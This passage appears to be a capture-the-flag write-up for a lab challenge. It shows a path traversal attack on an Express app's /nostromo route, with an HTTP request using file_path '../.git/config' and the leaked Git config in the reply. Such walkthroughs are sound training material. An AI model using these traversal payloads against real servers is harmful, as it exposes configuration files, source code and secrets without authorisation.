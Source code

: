 These configurations often exist in the top-level directory of a project, so try to enumerate them one path up from *routes/*:

- `../.env.json`: *Error*
- `../Dockerfile`: *Error*
- `../.gitignore`: *Found!*

Since `.gitignore` is found, we can try to enumerate the contents of `.git` to learn more about the contents of the project. The only *potential* caveat is that, if these contents were not committed to Git, they will not appear in the `.git` artifacts. However, since this is a DevSecOps path, it is reasonable to speculate whether VCS triggered the build and deploy process; if so, the Git contents should reveal everything in the project.

The Git project structure is fairly predictable, and you are welcome to leverage the `/nostromo` route to pick any of them. For discovery purposes, two files are of particular interest:

- `.git/config`, a flat text file which includes metadata about the project
- `.git/index`, a binary file which contains strings, notably the paths to files in the project

Let's try to inspect the config file:

```
POST /nostromo HTTP/1.1
Host: http://IP_ADDRESS
Content-Type: application/json
...

{
  "file_path": "../.git/config"
}
```

The contents return, which imply that Git VCS is in use:

```
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 276
ETag: W/"114-l3m2M+q7EwbIe2cuUUG/ULGbdA8"
Vary: Accept-Encoding
Date: Wed, 05 Jun 2024 20:04:56 GMT
Connection: close

[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = https://github.com/melmols/mothers_secret_challenge.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
```
